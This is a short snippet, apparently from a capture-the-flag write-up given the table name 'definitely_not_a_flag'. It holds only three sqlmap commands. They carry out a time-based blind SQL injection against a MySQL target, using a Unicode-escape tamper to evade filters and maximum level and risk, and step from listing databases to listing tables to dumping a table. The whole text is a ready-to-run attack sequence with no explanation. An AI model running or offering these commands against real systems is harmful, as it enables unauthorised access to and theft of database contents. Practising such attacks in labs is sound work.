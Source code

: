 sqlmap -r request.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql

sqlmap -r request.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql

sqlmap -r request.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql

